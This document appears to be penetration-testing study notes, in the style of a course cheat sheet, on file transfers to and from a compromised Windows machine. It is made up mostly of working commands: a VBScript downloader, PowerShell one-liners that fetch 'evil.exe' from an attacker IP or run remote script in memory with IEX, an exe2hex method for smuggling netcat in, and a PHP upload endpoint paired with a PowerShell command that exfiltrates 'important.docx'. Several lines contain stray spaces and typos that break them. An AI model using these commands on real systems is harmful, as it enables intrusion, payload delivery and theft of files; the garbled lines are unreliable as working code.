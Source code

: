 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Windows Simple HTTP downloader VBs
```
cho	strUrl	=	WScript.Arguments.Item(0)	>	wget.vbs	
echo	StrFile	=	WScript.Arguments.Item(1)	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DEFAULT	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PRECONFIG	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DIRECT	=	1	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PROXY	=	2	>>	wget.vbs
echo	Dim	http,	varByteArray,	strData,	strBuffer,	lngCounter,	fs,	ts	>>	wget.vbs
echo	Err.Clear	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	http	=	CreateObject("WinHttp.WinHttpRequest.5.1")	>>	wget.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("WinHttp.WinHttpRequest")	>>	wge	t.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("MSXML2.ServerXMLHTTP")	>>	wget.	vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("Microsoft.XMLHTTP")	>>	wget.vbs	
echo	http.Open	"GET",	strURL,	False	>>	wget.vbs
echo	http.Send	>>	wget.vbs
echo	varByteArray	=	http.ResponseBody	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	fs	=	CreateObject("Scripting.FileSystemObject")	>>	wget.vbs
echo	Set	ts	=	fs.CreateTextFile(StrFile,	True)	>>	wget.vbs
echo	strData	=	""	>>	wget.vbs
echo	strBuffer	=	""	>>	wget.vbs
echo	For	lngCounter	=	0	to	UBound(varByteArray)	>>	wget.vbs
echo	ts.Write	Chr(255	And	Ascb(Midb(varByteArray,lngCounter	+	1,	1)))	>>	wget.vbs	
echo	Next	>>	wget.vbs
echo	ts.Close	>>	wget.vbs	
```

To run the above:  `cscript wget.vbs http://10.11.0.4/evil.exe evil.exe`

### Using powershell
Another way on newer machines is to use powershell:
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`

Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11 .0.4/upload.php', 'important.docx')`
